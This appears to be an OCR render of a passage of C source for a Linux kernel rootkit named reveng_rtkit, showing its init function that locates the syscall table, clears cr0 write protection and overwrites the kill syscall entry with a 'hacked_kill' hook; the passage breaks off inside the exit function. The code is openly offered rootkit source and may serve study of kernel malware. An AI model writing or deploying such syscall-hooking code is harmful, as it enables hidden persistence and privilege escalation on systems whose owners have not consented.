                 #include <linux/init.h>		/* Needed for the macros */
                #include <linux/module.h>	/* Needed by all modules */
                #include <linux/kernel.h>	/* Needed for printing log level messages */
                #include <linux/list.h>		/* macros related to linked list are defined here. Eg: list_add(), list_del(), list_entry(), etc */
                #include <linux/cred.h>		/* To change value of this fields we have to invoke prepare_creds(). 
                                           * To set those modified values we have to invoke commit_creds(). 
                                           * uid, gid and other similar "things" are stored in cred structure which is element of cred structure. */
                #include "Test_hook_kill.h"


                /* Function Prototypes */

                static int      __init rootkit_init(void);
                static void     __exit rootkit_exit(void);


              // =================== Entry Function ====================

              static int __init rootkit_init(void)
              {
                printk(KERN_INFO "=================================================\n");
                printk(KERN_INFO "[+] reveng_rtkit: Created by @reveng007(Soumyanil)");
                printk(KERN_INFO "[+] reveng_rtkit: Loaded \n");

                __sys_call_table = get_syscall_table();
                if (!__sys_call_table)
                  return -1;

                printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", __sys_call_table);

                /* Executes the instruction to read cr0 register (via inline assembly) and returns the result in a general-purpose register.
                *
                * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
                *
                * unsigned long (*read_cr0)(void);
                */
                cr0 = read_cr0();

                // Storing original syscall
                orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

                unprotect_memory();

                // Editing syscall table targeting "kill" syscall with our created "hacked_kill".
                __sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

                protect_memory();

                return 0;
              }

              // ========================== Exit Function ====================

              static void __exit rootkit_exit(void)
              {
                printk(KERN_INFO "\n=========================================\n");
